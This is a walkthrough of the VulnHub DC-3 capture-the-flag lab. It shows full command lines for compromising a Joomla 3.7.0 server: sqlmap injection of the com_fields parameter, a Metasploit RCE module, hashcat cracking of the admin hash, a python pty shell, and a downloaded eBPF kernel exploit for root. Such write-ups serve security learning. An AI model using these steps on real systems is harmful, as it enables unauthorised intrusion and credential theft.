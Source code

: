 # DC: 3
[VulnHub link](https://www.vulnhub.com/entry/dc-3,312/)  
By DCAU

* As with DC: 1 and DC: 2, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-3/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-3/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.8`.
* The host is running only the HTTP (port 80) service, where the port for this server is open.
* Run `nmap -p- -A 10.0.2.8`:
![](/screenshots/dc-3/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an Apache httpd web server running on port 80 (which is open). Also, it appears that the web server is running on a Joomla Content Management System (CMS) instead of WordPress.
* Opening `http://10.0.2.8` reveals a site with a welcome post (message) and a login form on the right-hand side:
![](/screenshots/dc-3/siteWebServer.jpg)
* I learnt from another walkthrough that we can identify the CMS behind the site through the header in the page's source, without using any tools at all:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* Unlike the previous 2 iterations of DC which has 5 flags, this one only has **1 flag**.
* I tried my luck on the login form with common login credentials such as `admin:admin` and `admin:password` which do not work as expected.
* Moreover, the displayed error message does not reveal to us if the username exists or not, unlike WordPress which does.
![](/screenshots/dc-3/loginInvalidMessage.jpg)
* The username is in red in the screenshot, but I do not think that means that the username does not exist. The username `admin` is likely to exist because we see that the welcome post was `Written by admin`, and I tried logins with the username `admin` and also other random ones, but both showed the username in red as a result of the invalid login attempt.
* Next, I tried `http://10.0.2.8/robots.txt`, where the output told us that a `robots.txt` file does not exist.
* The page source does not seem to reveal much of interest to us as well.
* It seems like there was nothing more I could poke at from the site by clicking around, so I searched for `joomla scanner kali` on Google, and found that our Kali VM has `joomscan` which scans for Joomla CMS vulnerabilities.
* Run `joomscan -u 10.0.2.8`:
![](/screenshots/dc-3/joomscan.jpg)
* The first thing that caught my eye was the `admin page` at `http://10.0.2.8/administrator/`, which really actually is a login page for administrators. Again, I tried common login credentials which were not successful:
![](/screenshots/dc-3/siteAdminLogin.jpg)
* And once again, there is no information leakage on whether we have a working username or not.
* Next, I tried to access the 4 directory listings that were shown and we are actually able to see the various directories and files within them!
* This was my first encounter with the Joomla CMS and I was not quite sure what to look out for, even if I had access to directories and files, unlike for example WordPress - where I knew that I would hunt for files like wp-config.php.
* However, we do know from `joomscan` that the Joomla CMS on this site was version `3.7.0`. Moreover, I learnt from another walkthrough that we could also have found out the version of the Joomla CMS via the `README.txt` file:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* I googled to see if there were exploits for this version of Joomla, and found the [Joomla Component Fields SQLi Remote Code Execution](https://www.rapid7.com/db/modules/exploit/unix/webapp/joomla_comfields_sqli_rce).
* I opened `msfconsole` and ran `use exploit/unix/webapp/joomla_comfields_sqli_rce`. After running `show options`, I `set RHOST 10.0.2.8`:
![](/screenshots/dc-3/msfconsoleJoomlaOptions.jpg)
* However, upon running `exploit`, we see that no session was created because there was "no logged-in Administrator or Super User user found":
![](/screenshots/dc-3/msfconsoleJoomlaExploitFailed.jpg)
* This tells us that there are no users logged in at the moment, or at least there are no users which have administrative privileges who are logged in.
* Next, we will explore 2 steps of using the same vulnerability to obtain our next piece of information.
* **Method 1: Using Existing Proof-of-Concept Exploit**
* I googled further and found a proof-of-concept exploit for the same vulnerability at this [GitHub link](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).
* Clone the Git repository, and run `python joomblah.py http://10.0.2.8`:
![](/screenshots/dc-3/joomblahOutput.jpg)
* Within a few seconds, we get to know that the user `admin` exists, along with his password hash `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`.
* Note: Reading `joomblah.py` reveals to us a series of steps required by the exploit that the creator has abstracted for us, so all we had to do was to run a simple python command. Such steps include extracting the joomla table, and its users, etc, which we will explore manually executing for ourselves (to a certain extent) in method 2.
* **Method 2: Using sqlmap**
* Alternatively, instead of using the proof-of-concept exploit, `searchsploit 3.7` led us to exploit `42033`, where there is a vulnerable URL given, as well as a command using `sqlmap`.
* `sqlmap` is an automatic SQL injection tool, allowing us to gain access to information stored in databases using the right set of queries by the tool.
* Modifying the `sqlmap` to our context gives us: `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`.
* I got prompted 3 times after running the command. Firstly, the detected back-end DBMS is `MySQL` and the prompt asked us if we want to skip test payloads for other DBMSes, to which I said yes, because it only made sense to do so for what is relevant. If we arrived at a dead-end subsequently, this might be something worth re-looking.
* The second prompt asked us if we want to follow the redirect to `http://10.0.2.8:80/index.php/component/fields/`, which sqlmap received, to which I said yes. The SQL injection exploit here was fundamentally about the component fields portion.
* The last prompt asked us if we wanted to keep testing the other parameters, since sqlmap had already found the GET parameter 'list[fullordering]' to be vulnerable. I gave a yes, but the command execution came to an end soon enough after that, so I guess there were not many other parameters to be tested.
* Lastly, the command execution also told us that there were 5 entries in the database names, where `joomladb` appears to be of interest to us. We also now know that the MySQL version is >= `5.1`.
![](/screenshots/dc-3/sqlmapDatabaseNames.jpg)
* Running `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables --batch` gives us the list of tables in the `joomladb` database, where the `#__users` table is of concern to us because we wanted to find a valid set of user credentials:
![](/screenshots/dc-3/sqlmapTableNames.jpg)
* Next, we run `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump --batch` to find out the contents of table `#_users`:
![](/screenshots/dc-3/sqlmapTableEntry.jpg)
* The hash value in the table is the same as the one that we have found earlier.
* I ran `hash-identifer` against the password hash and interestingly found no results:
![](/screenshots/dc-3/hashIdentifierAdmin.jpg)
* I extracted the front portions of the hash, i.e. `$2y$` and ran a Google search against it. Wikipedia tells us that such a prefix in a hash string indicates that the hash is a "bcrypt hash in modular crypt format".
* We will be using `hashcat`, ... **Find out if background of hashcat is required.**
* I ran `hashcat --help` to find out what parameters we had to use, and the `Hash modes` list came up to be pretty long, so I ran `hashcat --help | grep bcrypt` to find out what number was the bcrypt hash mode, which turned out to be `3200`.
* Insert the password hash into a text file (mine is `crackThisHash.txt`).
* Run `hashcat -m 3200 crackThisHash.txt /usr/share/wordlists/rockyou.txt --force`:
![](/screenshots/dc-3/hashcat.jpg)
* After a few seconds, we see that the hash has been cracked, and we have now got a valid set of credentials: `admin:snoopy`.
* Note: I used the standard given `rockyou.txt` wordlist for this purpose.
* Note: Running the command without `--force` for me resulted in this error:
![](/screenshots/dc-3/hashcatError.jpg)
* We are now able to log in to `http://10.0.2.8/administrator/`:
![](/screenshots/dc-3/loginAdmin.jpg)
* After logging in, I poked around the articles, categories, modules, plugins, etc. but did not quite seem to find information that was useful to me. This was my first time inside a Joomla CMS administrator panel and I was probably just groping in the dark.
* I remembered the exploit session which we attempted earlier using `msfconsole` and decided to head back for a shot at it:
![](/screenshots/dc-3/msfconsoleJoomlaExploitSuccess.jpg)
* We were able to establish a meterpreter session this time because we are logged in as `admin`.
* Note: If you encounter the same error as before (no logged-in administrator user), refresh your administrator panel on your web browser to confirm that you are still logged in, just before you run `exploit`.
* Run `shell`, then `whoami` and we find that we are `www-data` as expected.
* Enter `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell and we find ourselves within `/var/www/html/templates/beez3`.
* I ran `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we could possibly exploit to gain root access:
![](/screenshots/dc-3/setuidBinaries.jpg)
* Nothing much really stood out to me. `pkexec` stood out to me, probably because I never saw it before. I googled about exploits relating to it, which was [available](https://www.exploit-db.com/exploits/17932) provided that the version running was <= 0.101. Running `pkexec --version` revealed that our version was `0.105`.
* I navigated to the `/home` directory and found several files for user `dc3`:
![](/screenshots/dc-3/dc3Files.jpg)
* The file `.sudo_as_admin_successful` stood out, but it was an empty file. Perhaps it is a hint? I opened up the `/cat/passwd` file to see if there was any user `admin`:
![](/screenshots/dc-3/passwdFile.jpg)
* Since there was no user `admin`, I was not quite sure what the file name meant. Perhaps admin referred to root.
* Nonetheless, we did confirm that there is a user `dc3`.
* At this point I was pretty much stuck on how I should be moving forward and referred to existing walkthroughs of DC-3, and found that one exploit to getting root was through a vulnerability in the web server's OS. This was getting interesting - I had never tried something like that before.
* To find out what OS version the web server is running, execute `cat /etc/issue; uname -a`:
![](/screenshots/dc-3/vulnerableOSVersion.jpg)
* We see that the web server is running on `Ubuntu 16.04 LTS`.
* Run `searchsploit Ubuntu 16.04` to find out if there are any existing exploits for this version of Ubuntu:
![](/screenshots/dc-3/searchsploitUbuntu.jpg)
* We will be using 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation from the list of available exploits.
* Run `cat /usr/share/exploitdb/exploits/linux/local/39772.txt` to see the details of the exploit.
* Download the .zip file for this exploit from [this GitHub link](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) on the `/tmp` directory of the vulnerable web server.
* Run `unzip 39772.zip` to unzip the file, and we find `crasher.tar` and `exploit.tar`. At this point we are not exactly sure how we should be handling the files so I referred back to 39772.txt on how the files should be used:
![](/screenshots/dc-3/exploitUsage.jpg)
* Since we are looking at `exploit.tar`, run `tar -xvf exploit.tar` to extract its contents, which gives us the directory `ebpf_mapfd_doubleput_exploit`:
![](/screenshots/dc-3/doubleputExploitDirectory.jpg)
* Following the instructions in 39772.txt, run `./compile.sh`, which is a script that compiles the 3 C programs.
* Next, run `./doubleput`, and we have our root access:
![](/screenshots/dc-3/rootAccess.jpg)
* Head to `/root` directory, and we find `the-flag.txt`:
![](/screenshots/dc-3/flag.jpg)
* Hurray, we are done with this challenge!

# Other walkthroughs visited #
1. https://www.hackingarticles.in/dc-3-walkthrough/
2. https://s1gh.sh/vulnhub-dc-3/